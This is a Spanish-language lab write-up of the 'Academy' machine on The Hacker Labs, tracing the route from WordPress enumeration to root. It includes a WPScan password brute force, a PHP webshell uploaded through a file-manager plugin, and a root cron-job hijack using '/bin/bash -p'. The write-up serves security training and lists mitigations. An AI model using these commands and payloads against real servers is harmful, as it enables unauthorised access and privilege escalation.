# Academy

> **Plataforma:** The Hacker Labs  
> **Dificultad:** Fácil  
> **Sistema operativo:** Linux  
> **IP objetivo:** 192.168.0.104

## Resumen

Máquina Linux comprometida mediante un WordPress con credenciales débiles y un plugin vulnerable que permite subida de archivos. La escalada de privilegios se realiza abusando de una tarea cron ejecutada como root.

## Cadena de ataque

```text
WordPress
    ↓
Credenciales débiles (dylan:password1)
    ↓
Plugin vulnerable (Bit File Manager)
    ↓
Reverse Shell como www-data
    ↓
Cron vulnerable (backup.sh)
    ↓
Root
```

---

## Reconocimiento

Primero se realiza un descubrimiento de hosts mediante `arp-scan` para identificar la máquina víctima:

```bash
arp-scan -I eth0 --localnet --ignoredups
ping -c 1 192.168.0.104
```



Posteriormente se realiza un escaneo de puertos para identificar los servicios expuestos:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.0.104 -oG allPorts

nmap -p22,80 -sCV -Pn 192.168.0.104 -oN targeted
```





Los resultados muestran los siguientes servicios:

| Puerto | Servicio | Versión | Hallazgo |
|---|---|---|---|
| 80 | HTTP | Apache 2.4.59 | Servidor web accesible |
| 22 | SSH | OpenSSH 9.2p1 | Servicio SSH expuesto |

Por la versión de SSH y la información obtenida se puede inferir que el sistema podría tratarse de una distribución Debian.

Tras identificar los servicios expuestos se procede a su enumeración.

---

## Enumeración

### Enumeración web

Se realiza una enumeración del servicio HTTP:

```bash
nmap -p80 --script http-enum -Pn 192.168.0.104
```



El resultado muestra que el servidor utiliza WordPress.

Durante la inspección de la página se observa que los recursos apuntan al dominio:

```text
academy.thl
```

Por ello se añade la resolución del dominio en el archivo `/etc/hosts`:

```bash
echo "192.168.0.104 academy.thl" >> /etc/hosts
```



Tras revisar la aplicación no se encuentran vectores evidentes, por lo que se realiza una enumeración de directorios:

```bash
gobuster dir -u http://academy.thl/wordpress/ \
-w /usr/share/SecLists/Discovery/Web-Content/common.txt \
-t 40 -x php,html,txt,bak -b 403,404
```



Se identifica un panel de autenticación de WordPress.

---

### Enumeración WordPress

Se realiza una enumeración de usuarios mediante WPScan:

```bash
wpscan --url http://academy.thl/wordpress --enumerate u
```



Se identifica el usuario:

```text
dylan
```

Debido a la posibilidad de contraseñas débiles se realiza un ataque de fuerza bruta:

```bash
wpscan --url http://academy.thl/wordpress \
-U dylan \
-P /usr/share/wordlists/rockyou.txt
```



Se obtiene una contraseña válida:

```text
Usuario: dylan
Contraseña: password1
```

---

## Explotación

Con las credenciales obtenidas se accede al panel administrativo de WordPress.

Dentro del panel se identifica el plugin:

```text
Bit File Manager
```

El plugin permite gestionar archivos del servidor y subir contenido, permitiendo aprovecharlo para cargar un archivo PHP malicioso.



Se crea una webshell PHP:

```php
<?php
  system($_GET['cmd']);
?>
```

y se sube al servidor.



Una vez subida la webshell se utiliza para ejecutar una reverse shell hacia la máquina atacante.





Se realiza un tratamiento de la TTY:

```bash
script /dev/null -c bash

Ctrl + Z

stty raw -echo; fg

reset

export TERM=xterm
export SHELL=bash

stty rows 39 columns 184
```

**Resultado:** acceso obtenido como usuario `www-data`.

---

## Escalada de privilegios

Tras enumerar permisos sudo, capabilities y binarios SUID no se encuentran vectores aprovechables.

Se realiza una monitorización de procesos mediante `pspy`:

```bash
chmod +x pspy64
./pspy64
```



Durante la monitorización se identifica una tarea cron ejecutada como root:

```bash
/usr/sbin/CRON
/bin/sh -c /opt/backup.sh
```



El script `backup.sh` no existe, pero se comprueba que el usuario `www-data` tiene permisos para crearlo dentro de `/opt`.

Se crea el archivo:

```bash
nano /opt/backup.sh
chmod +x /opt/backup.sh
```

Con el siguiente contenido:

```bash
#!/bin/bash

/bin/bash -p
```

Tras la ejecución automática del cron se obtiene una shell privilegiada.



**Vector:** tarea cron ejecutada como root con un script modificable por un usuario sin privilegios.

**Resultado:** acceso obtenido como `root`.

---

## Cadena final

```text
WordPress → Credenciales débiles → Plugin vulnerable → Reverse Shell → Cron Hijacking → Root
```

---

## Aprendizajes

- Enumeración de WordPress mediante WPScan.
- Identificación de credenciales débiles.
- Explotación de plugins con permisos inseguros.
- Uso de pspy para detectar procesos ejecutados por usuarios privilegiados.
- Escalada mediante tareas cron mal configuradas.

---

## Mitigaciones

- Aplicar políticas de contraseñas robustas.
- Mantener plugins de WordPress actualizados.
- Restringir la subida de archivos en aplicaciones web.
- Revisar periódicamente tareas cron ejecutadas como root.
- Evitar que usuarios sin privilegios puedan modificar scripts ejecutados por usuarios privilegiados.